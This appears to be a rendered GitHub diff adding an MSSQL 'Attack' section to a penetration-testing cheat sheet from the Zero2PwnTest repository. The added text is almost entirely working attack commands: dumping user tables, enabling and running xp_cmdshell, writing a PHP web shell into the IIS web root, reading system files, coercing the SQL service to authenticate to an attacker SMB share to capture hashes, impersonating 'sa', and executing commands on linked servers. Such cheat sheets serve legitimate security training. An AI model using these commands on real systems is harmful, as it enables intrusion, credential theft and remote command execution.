

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

`````diff
--- a/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
+++ b/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
@@ -128,6 +180,81 @@ $ python3 mssqlclient.py <USER>@<IP> -windows-auth
 $ impacket-mssqlclient <USER>@<IP> -windows-auth
 $ impacket-mssqlclient DOMAIN/<USER>@<IP>
 $ impacket-mssqlclient '<user>:<pass>@<ip>' -windows-auth
+````
+**Attack**
+````
+sqsh -S <IP> -U <user> -P '<Password>' -h (Autenticate with sqsh)
+sqsh -S <IP> -U .\\<user> -P 'MyPassword!' -h (Target local account)
+----------------------------------------------------------------------------
+Enumerate DB
+If we use sqlcmd, we will need to use GO after our query to execute the SQL syntax.
+1> SELECT name FROM master.dbo.sysdatabases (Show all databases)
+2> GO
+1> USE database
+2> GO
+1> SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES (Show tables of the selected database)
+2> GO
+1> SELECT * FROM users (Dump data of users's table)
+2> go
+--------------------------------------------------------------------------------
+Executing Commands
+1> xp_cmdshell 'whoami'
+2> GO
+If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
+EXECUTE sp_configure 'show advanced options', 1
+RECONFIGURE
+EXECUTE sp_configure 'xp_cmdshell', 1
+RECONFIGURE
+if we are using impacket-mssqlclient just do and the tools automatic execute last commands:
+> enable_xp_cmdshell
+----------------------------------------------------------------------------------
+Write a file
+1> DECLARE @OLE INT
+2> DECLARE @FileID INT
+3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
+4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
+5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
+6> EXECUTE sp_OADestroy @FileID
+7> EXECUTE sp_OADestroy @OLE
+8> GO
+-------------------------------------------------------------------------------------
+Read a file
+1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
+2> GO
+-------------------------------------------------------------------------------------
+Capture MSSQL Service Hash
+1> EXEC master..xp_dirtree '\\<IP-Attacker>\share\'
+2> GO
+or
+1> EXEC master..xp_subdirs '\\<IP-Attacker>\share\'
+2> GO
+$ sudo responder -I tun0
+$ sudo impacket-smbserver share ./ -smb2support
+-------------------------------------------------------------------------------------
+Impersonate Existing Users
+1> SELECT distinct b.name
+2> FROM sys.server_permissions a
+3> INNER JOIN sys.server_principals b
+4> ON a.grantor_principal_id = b.principal_id
+5> WHERE a.permission_name = 'IMPERSONATE'
+6> GO  (List Users)
+
+1> EXECUTE AS LOGIN = 'sa'
+2> SELECT SYSTEM_USER
+3> SELECT IS_SRVROLEMEMBER('sysadmin')
+4> GO
+-------------------------------------------------------------------------------------
+Communicate with Other Databases
+- Identify linked Servers -
+1> SELECT srvname, isremote FROM sysservers
+2> GO
+Where 1 means is a remote server, and 0 is a linked server.
+- Execute query in Linked Server -
+1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<Linked_Server>]
+2> go
+- Execute Commands -
+1> EXECUTE('xp_cmdshell ''whoami''') AT [<Linked_Server>]
+2> go
 ````
 
 ### Oracle Tns
`````
Also changed, not shown: other parts of Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md (+64 -1 lines).
